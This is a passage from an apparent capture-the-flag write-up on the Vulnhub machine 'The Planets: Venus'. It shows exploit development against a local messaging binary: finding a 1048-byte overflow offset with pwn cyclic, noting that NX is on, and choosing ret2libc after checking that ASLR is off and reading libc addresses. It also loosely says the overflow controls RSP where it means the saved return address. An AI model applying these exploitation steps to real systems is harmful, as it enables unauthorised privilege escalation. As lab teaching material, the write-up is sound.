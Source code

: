 > **Note**: [pwndbg](https://github.com/pwndbg/pwndbg) is being used.
{: .prompt-info }

![Writeup-6.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-6.png)

Get RSP value offset
```bash
└─$ pwn cyclic -l maaknaak
1048
```

_So at 1040 bytes the buffer starts to overflow and overwrites RBP and at **1048** we overwrite the **RSP**. The RSP points to the memory address where the program continues execution, so if we control the RSP we could point to a memory address we control and continue execution there, for example place some shellcode in the first 1048 bytes we send and then point the RSP to this address but this method would not work in this case as the stack is not executable._ (NX:       NX enabled)

The technique we can use is [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc), because fortunately (or not) the ASLR is disabled:
```bash
[magellan@venus ~]$ cat /proc/sys/kernel/randomize_va_space
0
[magellan@venus ~]$ ldd /usr/bin/venus_messaging
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib64/libc.so.6 (0x00007ffff7dee000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
[magellan@venus ~]$ ldd /usr/bin/venus_messaging
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib64/libc.so.6 (0x00007ffff7dee000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000
```

![Writeup-7.png](/assets/images/Vulnhub/The-Planets-Venus/Writeup-7.png)
